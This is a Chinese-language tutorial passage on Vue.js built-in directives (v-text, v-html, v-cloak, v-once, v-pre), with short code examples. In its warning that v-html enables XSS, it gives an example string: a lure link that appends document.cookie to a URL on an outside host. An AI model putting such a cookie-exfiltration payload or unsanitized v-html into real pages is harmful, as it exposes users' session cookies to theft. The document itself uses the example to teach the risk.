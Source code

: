 ```html
<p v-text="username">这段内容会被覆盖</p>
```

```js
data() { return { username: "Bruce" } }
```

### v-html

:::warning 安全问题
v-html 存在安全问题，容易导致 XSS 攻击
:::

```html
<p v-html="desc">原本内容被覆盖</p>
```

```js
data() {
  return {
    desc: '<h1 style="color: red">红色标题</h1>'，
    str: '<a href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'
  }
}
```

### v-cloak

- 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删除 `v-cloak` 属性
- 使用 CSS 配合 `v-cloak` 可解决网速慢时页面展示 {{ xx }} 的问题

```css
[v-cloak] {
  display: none;
}
```

```html
<h2 v-cloak>{{ username }}</h2>
```

### v-once

- `v-once` 所在节点初次渲染后就成为静态内容
- 即数据变化不会引起 `v-once` 所在节点内容的更新，可用于优化性能

```html
<h2 v-once>初次的内容：{{ content }}</h2>
<h2>最新的内容：{{ content }}</h2>
```

### v-pre

- 跳过所在节点的编译过程
- 没有使用插值语法等特殊语法的节点，可用其跳过编译过程，加快编译

```html
<h2 v-pre>Vue 内置指令</h2>
<p>用户名：{{ username }}</p>
```
